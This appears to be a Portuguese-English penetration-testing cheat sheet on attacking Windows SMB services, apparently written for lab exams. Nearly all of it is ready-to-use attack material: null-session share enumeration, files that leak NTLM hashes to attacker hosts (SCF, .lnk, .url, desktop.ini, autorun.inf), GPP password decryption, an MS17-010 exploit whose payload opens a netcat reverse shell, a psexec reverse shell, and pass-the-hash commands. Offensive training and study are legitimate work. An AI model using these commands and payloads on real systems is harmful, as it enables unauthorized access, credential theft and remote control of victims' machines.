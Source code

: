 SMB
========================

OBS: Para que comporte todos as versões de protocolo, temos que adequar o arquivo de configuração da seguinte maneira:


```
[global]
#### Kali configuration (use kali-tweaks to change it) ####

# By default a Kali system should be configured for wide compatibility,
# to easily interact with servers using old vulnerable protocols.
#client min protocol = LANMAN1
client min protocol = CORE
client max protocol = SMB3

## Browsing/Identification ###
#   force user = acosta

# Change this to the workgroup/NT-domain name your Samba server will part of
#   workgroup = DOMAIN
```
## Null session and guest

### smbmap

null session

```
smbmap -H 10.11.1.227 -u '' -p ''
```

user guest

```
smbmap -H 10.11.1.227 -u guest -p ''
```
    
### smbclient

    smbclient -L 10.11.1.227 -U 'workgroup/guest'
    <ENTER>
    smbclient -U 'workgroup/guest' //10.11.1.227/share
    <ENTER>

Para conseguir fazer enunmeração mais rapidamente, é interessante que utilizemos o recurso de recursividade no smbclient com os seguintes comandos:

    recurse on
    dir

Desta forma, basta exxecutar esses dois comandos para ele fazer a busca via dir recursivamente

### netexec

```
netexec smb <hostname> -u '' -p '' --shares
```

```
netexec smb <hostname> -u 'guest' -p '' --shares
```    


## Acesso de escrita

Aqui basicamente é obter hashes NTLMv2 para tentativa de quebrá-los com john ou hashcat.

Fonte:  <https://osandamalith.com/2017/03/24/places-of-interest-in-stealing-netntlm-hashes/>

### SCF files

    [Shell]
    Command=2
    IconFile=\\10.10.14.4\smb\uwu.ico
    [Taskbar]
    Command=ToggleDesktop

    sudo responder -I tun0

### Internet Shortcuts (.url)

Another shortcut in Windows is the Internet shortcuts. You can save this as something.url

    echo [InternetShortcut] > stealMyHashes.url 
    echo URL=file://192.168.0.1/@OsandaMalith >> stealMyHashes.url

### Shortcut Files (.lnk)

We can create a shortcut containing our network path and as you as you open the shortcut Windows will try to resolve the network path. You can also specify a keyboard shortcut to trigger the shortcut. For the icon you can give the name of a Windows binary or choose an icon from either shell32.dll, Ieframe.dll, imageres.dll, pnidui.dll or wmploc.dll located in the system32 directory.
```
[code language=”vb”]
Set shl = CreateObject(&quot;WScript.Shell&quot;)
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
currentFolder = shl.CurrentDirectory

Set sc = shl.CreateShortcut(fso.BuildPath(currentFolder, &quot;\StealMyHashes.lnk&quot;))

sc.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
sc.WindowStyle = 1
sc.HotKey = &quot;Ctrl+Alt+O&quot;
sc.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
sc.Description = &quot;I will Steal your Hashes&quot;
sc.Save
[/code]

The Powershell version.
[code language=”powershell”]
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut(&quot;StealMyHashes.lnk&quot;)
$lnk.TargetPath = &quot;\\35.164.153.224\@OsandaMalith&quot;
$lnk.WindowStyle = 1
$lnk.IconLocation = &quot;%windir%\system32\shell32.dll, 3&quot;
$lnk.Description = &quot;I will Steal your Hashes&quot;
$lnk.HotKey = &quot;Ctrl+Alt+O&quot;
$lnk.Save()
[/code]
```
### Windows Script Files

Save this as something.wsf.

```
[code language=”xml”]
&lt;package&gt;
&lt;job id=&quot;boom&quot;&gt;
&lt;script language=&quot;VBScript&quot;&gt;
Set fso = CreateObject(&quot;Scripting.FileSystemObject&quot;)
Set file = fso.OpenTextFile(&quot;//192.168.0.100/aa&quot;, 1)
&lt;/script&gt;
&lt;/job&gt;
&lt;/package&gt;
[/code]
```

### Desktop.ini

The desktop.ini files contain the information of the icons you have applied to the folder. We can abuse this to resolve a network path. Once you open the folder you should get the hashes.

```
mkdir openMe
attrib +s openMe
cd openMe
echo [.ShellClassInfo] > desktop.ini
echo IconResource=\\192.168.0.1\aa >> desktop.ini
attrib +s +h desktop.ini
```

In Windows XP systems the desktop.ini file uses ‘IcondFile’ instead of ‘IconResource’.

    [.ShellClassInfo]
    IconFile=\\192.168.0.1\aa
    IconIndex=1337

### Autorun.inf

Starting from Windows 7 this feature is disabled. However you can enable by changing the group policy for Autorun. Make sure to hide the Autorun.inf file to work.

    [autorun]
    open=\\35.164.153.224\setup.exe
    icon=something.ico
    action=open Setup.exe

## GPP Group.xml

Essa pasta geralmente se encontra dentro do diretório SYSVOL (compartilhado)

    ./Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml

Nesse cenário, basta executarmos uma ferramenta para decriptar a senha armazenada neste arquivo:

    git clone https://github.com/t0thkr1s/gpp-decrypt
    python3 gpp-decrypt.py -f [groups.xml]
    #ou
    python3 gpp-decrypt.py -c [cpassword]

## CVEs/Exploits

### ms17-010

    tools
    cd cve/2017-0143/impacket
    source exploit_ms17-010/bin/activate

Nesse momento já temos o ambiente preparado para execução do script, mas temos que preparar o paylolad pra funcionar:

    #include<stdlib.h>
    
    int main() {
    
            int i;
            i = system("START /B \\\\192.168.119.156\\smb\\nc.exe 192.168.119.156 80 -e cmd");
            return 0;
    }
Adequar este payload toda vez que for utilizá-lo

    i686-w64-mingw32-gcc backup.c -o backup.exe
    
    impacket-smbserver -smb2support smb /usr/share/windows-binaries
    nc -nlvp 80
    python ../impacket/send_and_execute.py 10.11.1.227 ../payload/backup.exe
    

## Psexec

baixar do sysinternals

    .\psexec -d -s -i ".\nc.exe -e powershell 10.10.14.14 8081"

## Pass the hash

Impacket and evil-winrm

```
evil-winrm -i <hostname> -u user -H lmhash:nthash
impacket-psexec user@<hostname> -hashes lmhash:nthash
impacket-smbexec user@<hostname> -hashes lmhash:nthash
impacket-wmiexec user@<hostname> -hashes lmhash:nthash
```
